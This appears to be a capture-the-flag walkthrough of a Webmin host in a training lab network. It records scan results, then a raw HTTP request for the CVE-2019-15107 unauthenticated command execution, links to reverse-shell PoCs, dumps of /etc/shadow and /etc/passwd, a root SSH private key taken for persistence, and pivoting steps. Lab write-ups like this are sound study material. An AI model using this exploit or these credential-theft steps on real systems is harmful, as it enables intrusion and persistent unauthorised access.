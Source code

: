 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1541728472741-03e45a58cf88?crop=entropy&cs=srgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHNlYXJjaHw5fHxoYWNrZXJ8ZW58MHx8fHwxNjQ0OTUxOTI2&ixlib=rb-1.2.1&q=85
coverY: 421.77650429799417
description: Main webserver
---
```


# 🔰 10.200.81.200 | Linux

## <mark style="color:purple;background-color:green;">\_\_Enumeration\_\_</mark>

<details>

<summary><mark style="color:purple;">NMAP</mark></summary>

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Thomas Wreath | Developer
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2022-02-15T11:52:37
|_Not valid after:  2023-02-15T11:52:37
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
|_ssl-date: TLS randomness does not represent time
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
```

Known CVE - `MiniServ 1.890 (Webmin httpd)`\
``![](<../../.gitbook/assets/image (13) (1) (1) (1) (1) (1).png>)``

</details>

<details>

<summary><mark style="color:green;">Web Services</mark></summary>

**Technologies**

![](<../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png>)

**Dirsearch | Gobuster**

```yaml
Target: https://thomaswreath.thm/
[14:40:10] 403 -  217B  - /cgi-bin/            
[14:40:18] 301 -  237B  - /css  ->  https://thomaswreath.thm/css/
[14:40:27] 301 -  239B  - /fonts  ->  https://thomaswreath.thm/fonts/
[14:40:32] 301 -  237B  - /img  ->  https://thomaswreath.thm/img/
[14:40:33] 200 -   15KB - /index.html                                       
[14:40:36] 200 -    1KB - /js/


```

#### Page Screenshots

![](<../../.gitbook/assets/image (2) (1).png>)![](<../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png>)

</details>

#### :notebook\_with\_decorative\_cover: <mark style="color:blue;">Other Services</mark>

**OSINT** --> \
Phone Number: `01347 822945` \
Mobile Number: `+447821548812` \
Email: `me@thomaswreath.thm`

## <mark style="color:red;background-color:yellow;">\_\_Exploitation\_\_</mark>

## _<mark style="color:orange;">FOOTHOLD</mark>_

### **CVE-2019-15107 Webmin RCE v1.890 (Unauthenticated)**

**Manual exploit**\
****POC used --> [https://github.com/ruthvikvegunta/CVE-2019-15107](https://github.com/ruthvikvegunta/CVE-2019-15107)****\
****Response: \
![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)\
Request:&#x20;

```yaml
POST /password_change.cgi HTTP/1.1
Host: thomaswreath.thm:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: http://thomaswreath.thm:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 17



expired=id

```

{% hint style="info" %}
Use `curl` for faster responses!
{% endhint %}

Can successfully ping my machine and execute most of the commands.\
![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)![](<../../.gitbook/assets/image (1) (1).png>)

### Getting reverse shell

Use this to get a pseudoshell - [https://github.com/MuirlandOracle/CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107)\
then convert to a TTY shell\
![](<../../.gitbook/assets/image (4) (1).png>)![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)\
Stabilize shell to get auto-complete and more\
![](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

### Enumerating the machine for lateral movement

* `/etc/shadow` and `/etc/passwd` _<mark style="color:red;"></mark>_&#x20;

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::

twreath:x:1000:1000:Thomas Wreath:/home/twreath:/bin/bash
unbound:x:991:987:Unbound DNS resolver:/etc/unbound:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
nginx:x:990:986:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
```

* Found **mysql** data at `/var/lib/mysql/mysql`
* Found ssh key at `/root/.ssh/id_rsa` --> **ESTABLISH PERSISTENCE**

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

## _<mark style="color:red;">PIVOTING</mark>_

* Identify any local DNS servers which maybe misconfigured to allow DNS zone transfer attack: `arp -a` and `/etc/resolv.conf`

```bash
ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)

search eu-west-1.compute.internal
nameserver 10.200.0.2
```

* Performing a ping sweep of the network using nmap\
  ![](<../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)
* Port scan every active host (except `.1, .250, .255`)\
  ![](<../../.gitbook/assets/image (3) (1) (1).png>)

{% hint style="info" %}
Rest of the hosts in their individual pages.
{% endhint %}
